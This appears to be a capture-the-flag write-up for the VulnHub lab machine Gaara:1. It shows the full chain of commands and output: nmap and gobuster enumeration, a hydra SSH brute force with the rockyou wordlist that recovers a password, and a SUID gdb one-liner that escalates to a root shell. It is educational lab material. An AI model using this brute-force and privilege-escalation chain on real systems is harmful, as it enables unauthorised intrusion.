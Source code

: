 ```yaml
---
title: Gaara:1 - Writeup
author: Elman Alizadeh
date: 2022-06-01 11:50:00 +0800
categories: [ctf, VulnHub]
tags: [vulnhub, gaara]
---
```


Today we will take a look at Vulnhub: Gaara: 1. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/vuln-gaara/1.png" | relative_url }})

## Network scan

```console
nmap -p- -sV -sC --open 192.168.201.142

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:a3:6f:64:03:33:1e:76:f8:e4:98:fe:be:e9:8e:58 (RSA)
|   256 6c:0e:b5:00:e7:42:44:48:65:ef:fe:d7:7c:e6:64:d5 (ECDSA)
|_  256 b7:51:f2:f9:85:57:66:a8:65:54:2e:05:f9:40:d2:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gobuster

```console
gobuster dir -u http://192.168.201.142 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.201.142
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/01 10:59:28 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/server-status        (Status: 403) [Size: 280]
/Cryoserver           (Status: 200) [Size: 327]
```

## Web

Url: http://192.168.201.142/Cryoserver

![Desktop View]({{ "/assets/img/vuln-gaara/2.png" | relative_url }})

When I looked at all three, I could not find any useful information.

![Desktop View]({{ "/assets/img/vuln-gaara/3.png" | relative_url }})

There was only text encrypted with base58. It was not useful to decode it either.

[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base58%28%27123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz%27,true%29&input=ZjFNZ045bVRmOVNOYnpSeWdjVQ)

gaara:ismyname

Let’s attack ssh

## Hydra

Command: hydra -l gaara -P /usr/share/wordlists/rockyou.txt ssh://192.168.201.142:22

```console
[DATA] attacking ssh://192.168.201.142:22/
[STATUS] 126.00 tries/min, 126 tries in 00:01h, 14344278 to do in 1897:24h, 16 active
[22][ssh] host: 192.168.201.142   login: gaara   password: iloveyou2
1 of 1 target successfully completed, 1 valid password found
```

## Root

Command: find / -perm -u=s 2>/dev/null

```console
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/gdb
/usr/bin/sudo
/usr/bin/gimp-2.10
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/umount
```

[GTFO_gdb](https://gtfobins.github.io/gtfobins/gdb/#capabilities)

Command: gdb -nx -ex ‘python import os; os.setuid(0)’ -ex ‘!bash’ -ex quit

![Desktop View]({{ "/assets/img/vuln-gaara/4.png" | relative_url }})

### And now we are the root

![Desktop View]({{ "/assets/img/vuln-gaara/5.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”
